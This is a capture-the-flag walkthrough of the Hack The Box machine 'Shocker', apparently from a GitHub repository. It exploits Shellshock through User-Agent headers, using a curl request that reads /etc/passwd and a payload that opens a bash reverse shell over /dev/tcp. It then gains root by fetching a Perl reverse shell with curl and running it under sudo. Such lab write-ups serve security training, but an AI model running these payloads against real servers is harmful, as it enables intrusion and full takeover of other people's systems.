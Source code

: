 Box: Linux
Level: Easy

### Index
1.  [Box Info](#Box%20Info)
2.  [Nmap Enum](#Nmap%20Enum)
3. [Web enumeration](#Web%20enumeration)
	1. [`Almost Got The Shell...`](#`Almost%20Got%20The%20Shell...`)
	2. [`Validating Shell Shock using nmap`](#`Validating%20Shell%20Shock%20using%20nmap`)
	3. [`Intercepting Nmap Scan using Burp`](#`Intercepting%20Nmap%20Scan%20using%20Burp`)
	4. [`ShellShock using CURL`](#`ShellShock%20using%20CURL`)
	5. [`User Flag using ShellShock`](#`User%20Flag%20using%20ShellShock`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`Grab the Perl Shell`](#`Grab%20the%20Perl%20Shell`)
	2. [`Got Root Flag`](#`Got%20Root%20Flag`)

### Box Info
```
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn shocker.htb
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
Only two open ports.  

### Web enumeration
```
# feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x sh
200      GET        7l       18w      119c http://shocker.htb/cgi-bin/user.sh
```

Browsing `http://shocker.htb` and `http://shocker.htb/cgi-bin/user.sh` would show us the following 
![](shocker_port80.png)

We will spin up Burp Suite to capture the HTTP request and response pair.

###### `Almost Got The Shell...`
![](shocker_ShellShock.png)
I started the NetCat Listener on port 4444 and trying to inject the ShellShock payload through the `User-Agent` HTTP Request Header however, the shell dropped right away.

###### `Validating Shell Shock using nmap`
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd=ls" shocker.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 23:11 EDT
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at shocker.htb Port 80</address>
|   </body></html>
```

You can perform the RCE using HTTP User Agent Request header and nmap using the following command. In my case, it was not echoing back the output in the HTTP response.
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd='echo User-Agent: () { :; }; echo; /bin/whoami'" shocker.htb
```

###### `Intercepting Nmap Scan using Burp`
Set your Burp as following Config
![](shocker_nmap_burp.png)
Than make sure you can access port 80 of the target using `http://127.0.0.1:8081/` and than run the following command
```
# nmap -p8081 --min-rate=1000 -sV --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
```

Looking at Burp Browsing History, You will notice,
![](shocker_nmap_burp1.png)

###### `ShellShock using CURL`
```
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: shocker.htb' -H $'Accept-Language: en-US' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: () { :; }; echo; echo; /bin/bash -c \'cat /etc/passwd\'' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    $'http://shocker.htb/cgi-bin/user.sh'
```

###### `User Flag using ShellShock`
```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On the NetCat Listener Side,
```
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
0ccf63e4f368*********************
```
Get your User Flag

### Privilege Escalation

Uploaded `LinEnum.sh` and than running it throws the `Permission Denied`. Change the permission using `chmod +x LinEnum.sh` command. Following to that `LinEnum` run.
```
[-] Kernel information (continued):
Linux version 4.4.0-96-generic (buildd@lgw01-10) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017

[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl

[-] Root is allowed to login via SSH:
PermitRootLogin yes

[-] Sudo version:
Sudo version 1.8.16
```

Looks like we are allowed to execute `Perl` command with sudo. I will simply grab the Perl Shell from the GitHub and get it on the target and execute.

###### `Grab the Perl Shell`
Grab the Perl Shell from [Here](https://github.com/pentestmonkey/perl-reverse-shell/blob/master/perl-reverse-shell.pl) and get it on the box. make sure to change the IP and Port.

```
shelly@Shocker:/tmp$ curl -o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl
<o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl             
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3713  100  3713    0     0  42872      0 --:--:-- --:--:-- --:--:-- 43682

shelly@Shocker:/tmp$ sudo perl perl-reverse-shell.pl

Content-Length: 0
Connection: close
Content-Type: text/html

shelly@Shocker:/tmp$ Content-Length: 41
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.8:5555<p>
```

###### `Got Root Flag`
On the NetCat Listener side
```
# nc -lvnp 5555           
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.56] 36822
 00:02:58 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd  
/
# cd root
# ls
root.txt
# cat root.txt
b4d7e8e22b046fd33bac60590020a747
# 

```

Grab the root flag.